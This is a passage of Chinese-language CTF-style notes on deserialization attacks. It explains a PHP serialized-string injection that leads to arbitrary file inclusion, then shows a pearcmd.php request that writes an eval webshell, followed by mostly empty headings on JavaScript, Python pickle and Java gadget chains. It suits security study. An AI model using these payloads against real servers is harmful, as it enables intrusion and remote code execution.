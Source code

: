 目标是控制反序列化出来的$checkdata数组中的background的值，从而实现任意文件包含。正常的background是ok，但反序列化前用str_replace进行了从长到短的字符串替换，存在反序列化漏洞。

从长到短的字符串替换，必须至少有两个可控的属性值，其中reason是可控的，time是用户输入经过date函数之后的，可以通过在每个字符之前添加`\`转义来绕过date函数的处理。

于是用reason把原来的`s:10:"background";s:2:"ok";` 挤出去，再在time中写进新的恶意的background：

```none
reason=<?php exit;//<?php exit;//
debug_buka=123xxxx";s:4:"time";s:2:"12";s:10:"background";s:43:"../../../../../../usr/local/lib/php/abcdefg";} 
（debug_buka的每个字符用反斜杠转义）
```

3、现在能够包含任意文件，限制是文件后缀名是.php

关于PHP裸文件包含（即没办法上传文件，但能包含文件）方法，可以参考：<https://www.leavesongs.com/PENETRATION/docker-php-include-getshell.html>

由于限制了包含的文件后缀名是.php，因此没法包含上传文件时的临时session文件（Session ID不允许`.`字符）

因此考虑包含`pearcmd.php`，它是在Docker任意版本镜像中都默认安装的。

```none
POST /index.php?check&+config-create+/<?=@eval($_GET[1]);?>+/var/www/html/hello.php
```

执行命令，写入一个webshell


## Javascript

主要是node-serialize包，可利用的方法不多

### 例题


## Python

### Python 的魔术方法

### Pickle 库用法和输出格式

### Pickle opcode 总结

### Pickle RCE Payload 大全

### 例题


## Java

### 反序列化库及基本原理

### 常用攻击链

#### XXXBean

#### XXXBean

### 中间件反序列化漏洞